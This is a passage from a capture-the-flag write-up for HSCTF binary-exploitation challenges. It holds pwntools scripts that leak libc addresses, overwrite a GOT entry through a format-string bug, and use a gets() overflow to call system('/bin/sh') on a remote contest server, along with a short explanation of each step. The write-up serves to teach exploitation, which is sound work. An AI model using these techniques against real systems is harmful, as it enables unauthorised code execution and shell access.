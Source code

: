 ```
payload += p64(0x404019)

p.sendline(payload)
p.sendline('-1')
p.sendline('26')

p.recvuntil('Result: ')
puts = p.recv(6)
puts = u64(puts + '\x00\x00')
log.info('puts   @ {}'.format(hex(puts)))

system = puts - 0x2a300
log.info('system @ {}'.format(hex(system)))

lower = (system & 0xffff)
log.info('system @ {}'.format(hex(lower)))

payload  = '   %'
payload += str(lower)
payload += 'x%26$hn'
payload += ''
payload += p64(0x404048)

log.info('payload ' + payload)

p.sendline(payload)
p.sendline('-1')
p.sendline('26')
p.sendline('Hello')
p.sendline('cat flag')
p.sendline('1')
p.close()
```

## combo-chain

The vulnerability is triggered by a buffer overflow in the call to `gets()` inside `vuln()`. The `/bin/sh` string is leaked in the call to `printf()`.

To exploit, the address of `printf` is leaked in libc via the global offset table using a call to `printf` itself. We load `%rdi` with the GOT entry for `printf`. `printf` will only print the first 5 bytes of `&printf` in libc as it contains `0x00` for the last 8-bits, e.g. `0x7f3722eec800`

Using the address of `printf`, we calculate the offset to `system`. The `/bin/sh` string leaked by the call to `printf` in `vuln` is used to land us in a shell.

```python
#!/usr/bin/python2

#
# $ python get.py 
# [+] Opening connection to pwn.hsctf.com on port 2345: Done
# [*] printf @ 0x7fc3176f0800
# [*] Switching to interactive mode
# Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!:
# $ cat flag
# hsctf{i_thought_konami_code_would_work_here}
#

from pwn import *

# p = process('./combo-chain')
p = remote('pwn.hsctf.com', 2345)
p.recvuntil('COMBO CARNAGE!: ')
```